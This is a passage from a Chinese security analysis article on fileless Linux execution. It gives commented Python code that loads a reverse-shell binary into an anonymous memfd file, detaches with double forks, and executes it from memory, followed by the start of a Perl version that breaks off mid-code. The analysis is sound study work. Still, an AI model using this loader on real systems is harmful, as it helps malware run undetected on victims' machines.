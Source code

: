 可以从上面的代码中发现，作者的想法是先通过syscall调用memfd_create创建匿名文件，再把句柄交给fexecve去执行，代码还是很精辟犀利的。

### python版-2

#### 来源与参考

下面这段无名代码是从网上一篇安全分析文章中看到的，代码的基本思路是从

https://www.anquanke.com/post/id/168791

#### 代码分析

```python
import ctypes
import os
# 读入待执行文件的内容
binary = open('/tmp/rev-shell','rb').read()

# 创建匿名文件
fd = ctypes.CDLL(None).syscall(319,"",1)
# 完成将待执行文件内容写入到匿名文件的复制
final_fd = open('/proc/self/fd/'+str(fd),'wb') 
final_fd.write(binary)
final_fd.close()

fork1 = os.fork() #create a child
if 0 != fork1: os._exit(0)

# 通过syscall的方式调用setsid()函数，再执行fork，猜测目的是用来将匿名文件的进程挂载到其他进程下。
ctypes.CDLL(None).syscall(112)
fork2 = os.fork()
if 0 != fork2: os._exit(0)
# 正式运行起来恶意匿名文件
os.execl('/proc/self/fd/'+str(fd),'argv0','argv1')
```

### perl版

#### 来源与分析

perl版的代码最早来源于@magisterquis，国内不少关于这篇代码的分析都抄自”逢魔安全实验室“的分析。

https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html

实际上这份代码是目前最纯粹的无文件Linux攻击方案，代码非常之经典。

#### 代码分析

代码由三部分组成

**第一部分**

```shell
cat >> elfload.pl <<EOF
#!/usr/bin/env perl
use warnings;
use strict;

$l=1;
# Open a memory-backed file
print "Marking anonymous file...";
my $name = "";
my $fd = syscall(319,$name,1);
if (-1 == $fd) {
    die "memfd_create: $!";
}
print "fd $fd";

```